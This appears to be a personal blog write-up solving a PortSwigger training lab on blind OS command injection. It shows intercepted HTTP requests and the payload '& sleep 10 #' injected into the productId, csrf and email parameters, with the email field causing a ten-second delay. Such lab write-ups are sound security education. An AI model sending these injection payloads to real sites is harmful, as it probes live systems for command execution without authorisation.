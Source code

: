 ```yaml
---
layout: post
title:  "PortSwigger - Command Injection - Lab 2"
date:   2024-07-07 18:20
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [command-injection]
categories: [PortSwigger]
---
```


# Lab 2 - Blind OS command injection with time delays
>Lab Objective:
This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.
To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays">Port Swigger - Lab 2</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/38308241">Rana Khalil - Lab2</a>
<br/>



### Solution
<hr/>

#### 1. Intercept  all requests and identify requests accepting user inputs:

```
1. GET /product?productId=1

2. POST /feedback/submit
csrf=tNxq00UNidafvF829JS2Jr5QDZyoy0bQ&name=sdfasdf&email=jaco%40infoseq.co&subject=asdasd&message=asdasd
```


#### 2. Test all inputs for command injection vulnerability:
Append `& sleep 10 #`

```
GET /product?productId=1%26+sleep+10+%23
```
Testing csrf parameter by appending our sleep payload:
```
POST /feedback/submit
csrf=tNxq00UNidafvF829JS2Jr5QDZyoy0bQ%26+sleep+10+%23&name=sdfasdf&email=jaco%40infoseq.co&subject=asdasd&message=asdasd
```
Testing email parameter by appending our sleep payload:
```
POST /feedback/submit
csrf=tNxq00UNidafvF829JS2Jr5QDZyoy0bQ&name=test&email=test%40gmail.com%26+sleep+10+%23&subject=test&message=test
```
Notice the response time was 10 seconds:
![Command Injection - Lab 1 - Response](/images/portswigger/CommandInjection/command_injection_lab_2_response.png)

<hr/>